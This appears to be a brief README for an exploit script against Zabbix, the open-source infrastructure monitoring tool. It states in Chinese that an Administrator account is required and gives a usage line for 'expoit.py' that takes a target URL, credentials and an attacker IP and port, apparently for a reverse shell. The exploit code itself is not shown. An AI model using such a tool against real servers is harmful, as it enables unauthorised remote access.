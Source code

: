 >Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services

## 前置条件
需要 Administrator 权限的账户

## 使用方法
```shell
usage : python3 expoit.py <target url>  <username> <password> <attacker ip> <attacker port>
```

